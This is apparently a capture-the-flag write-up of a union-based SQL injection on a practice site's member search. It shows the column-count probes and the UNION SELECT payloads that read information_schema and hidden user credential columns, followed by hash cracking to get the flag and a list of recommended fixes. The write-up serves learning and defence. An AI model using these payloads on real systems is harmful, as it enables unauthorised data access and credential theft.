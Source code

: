 # Union-based SQL injection

## Description

An SQL injection vulnerability leading to access some hidden data, containing among it the flag

## Steps to Reproduce

On the Members page, it is possible to search a member by member ID. \
When we enter 5, it says "try hack me".
We can see that if we try to add some sql syntax after the input, we receive an SQL error.
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1
```
So the website sends directly the input to SQL, and maybe we can use that.

First, we need to find the correct number of columns in the database.

``` sql
1 ORDER BY 1 --
1 ORDER BY 2 --
1 ORDER BY 3 --
```
We assume that the database uses this syntax.
``` sql
SELECT col1, col2 FROM table WHERE id = ?
```


We used the union-based SQL query to access some more informations about the members table.
> In SQL language, the UNION operator is used to merge the result of 2 queries, this adds the desired data to the data present in the first SQL query.


```sql
5 UNION SELECT table_name, column_name FROM information_schema.columns
```

This allowed us to list all columns from all tables, including the users table.
We noticed that some columns, such as commentaire and countersign, were not visible in the original page.

```sql
5 UNION SELECT commentaire, countersign FROM users
```

it gives us, amongst the others user_id (1, 2, 3 and 4), for the 5th:
```
ID: 5 UNION SELECT commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

```

Once again, it's MD5, and when we decrypt it, we get FortyTwo.

And fortwho in SHA256 : 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5


## Danger

**Data Exposure:** The vulnerability allows an attacker to access sensitive data that should not be available to unauthorized users. Here it is comments and countersign.

## Recommended fixe

1. **Input Sanitization:**

- **Identify User Inputs**: Review all entry points in your applications where users can submit data, such as forms and search bars. This also includes `GET` and `POST` requests, cookies, and any other user-submitted inputs.
- **Implement Input Validation**: Ensure that user inputs adhere to strict, defined rules for data types, lengths, and allowed characters. For example, if expecting a number, check if the input is indeed numeric. Use validation functions like `filter_var()` in PHP or regex patterns in JavaScript.
- **Sanitize Input**: Once validated, sanitize the input by removing or encoding potentially malicious characters. For PHP, you can try functions like `htmlspecialchars()` or `htmlentities()`. For JavaScript, you use `encodeURIComponent()`.
- **Use Prepared Statements for Database Queries**: Avoid directly inserting user inputs into SQL queries. Instead, use prepared statements with bound parameters to prevent SQL injection attacks. This way, inputs are treated as data, not executable code.

Source: [esecurityplanet.com](https://www.esecurityplanet.com/endpoint/prevent-web-attacks-using-input-sanitization/#:~:text=Input%20sanitization%20is%20the%20process,link%20for%20any%20organization's%20cybersecurity.)

2. **Error Handling:** don't expose detailed error messages to users. SQL errors provide attackers with clues about the database structure. The best is to use generic error messages.

5. **Database Permissions:** The database user should have the least privileges necessary. For example, the user should not have the `SELECT` permissions on system tables like `information_schema`.

6. **Regular Security Audits:** Regularly audit the application for vulnerabilities, particularly SQL injection, by performing penetration testing and code reviews.


